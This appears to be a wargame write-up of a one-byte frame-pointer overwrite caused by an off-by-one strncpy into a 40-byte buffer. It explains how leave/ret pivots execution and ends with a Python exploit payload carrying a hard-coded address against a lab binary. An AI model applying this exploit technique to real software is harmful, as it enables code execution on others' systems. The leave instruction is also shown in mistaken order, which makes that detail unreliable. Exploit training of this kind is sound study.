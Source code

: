 # Vulnerability
```c
void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}
```
This program uses strncpy that checks length but there is a mistake.

buffer is 40 bytes but it makes me able to copy 41 bytes.

I can overwrite only 1 byte on SFP but it is enought to exploit.

# Exploitation
The buffer is like:
```
--------------------------------
| buffer[40] | SFP[4] | RET[4] |
--------------------------------
```
I will use leave & ret to exploit this program.

In leave:
```assembly
mov ebp, esp
pop ebp
```
ESP will contain [SFP's address + 4].

and in ret:
```assembly
pop eip
```

In conclusion, If I give buffer's address and give shellcode's address in buffer+4, this program will have that address in EIP after leave & ret.

# Payload
```python
import os

payload = ""
payload = payload + "AAAA"
payload = payload + "\x7a\xfe\xff\xbf"
payload = payload + "A"*32
payload = payload + "\x14" # SFP

os.execv("/home/golem/darkknight", ["", payload]);
```
